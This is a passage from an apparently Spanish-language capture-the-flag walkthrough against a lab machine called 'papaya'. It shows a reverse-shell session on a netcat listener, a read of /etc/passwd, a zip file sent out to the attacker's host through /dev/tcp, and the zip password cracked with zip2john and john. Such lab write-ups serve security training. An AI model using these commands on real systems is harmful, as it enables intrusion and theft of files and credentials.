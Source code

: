 ```bash
$ stty raw -echo; fg
[1]  + continued  nc -nlvp 8888
ls
test.php
www-data@papaya:/var/www/html/elkarte/themes/test$ export TERM=xterm
www-data@papaya:/var/www/html/elkarte/themes/test$ reset
www-data@papaya:/var/www/html/elkarte/themes/test$
```

Una vez dentro del sistema vemos que hay un usuario llamado **papaya**:

```bash
www-data@papaya:/$ cat /etc/passwd | grep bash
root:x:0:0:root:/root:/bin/bash
papaya:x:1000:1000:,,,:/home/papaya:/bin/bash
```

Haciendo una búsqueda por el servidor nos encontramos con un fichero **zip** en el directorio **/opt:**

```bash
www-data@papaya:/home$ ls -l /opt/
total 4
-rwxr-xr-x 1 root root 173 Jul  2 17:14 pass.zip
```

Nos ponemos a la eschucha en nuestra máquina redirigiéndo la salida a un fichero llamado **pass.zip** y nos mandamos el fichero zip del servidor a nuestra máquina:

```bash
www-data@papaya:/opt$ cat pass.zip > /dev/tcp/10.0.2.5/8889

$ nc -nlvp 8889 > pass.zip
listening on [any] 8889 ...
connect to [10.0.2.5] from (UNKNOWN) [10.0.2.147] 35802
```

Intentamos descomprimirlo pero vemos que es necesaria una clave para extraer el contenido. Usando **zip2john** creamos el hash del fichero para luego intentar crackearlo:

```bash
zip2john pass.zip > pass.hash
ver 2.0 pass.zip/pass.txt PKZIP Encr: cmplen=23, decmplen=11, crc=EEA46B01 ts=89BB cs=eea4 type=0
```

Ahora usamos **john** para intentar encontrar la password:

```bash
$ john --wordlist=/usr/share/wordlists/rockyou.txt pass.hash 
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
jesica           (pass.zip/pass.txt)
```

Descomprimimos el fichero con la clave recién obtenida y leemos el fichero que hay dentro:
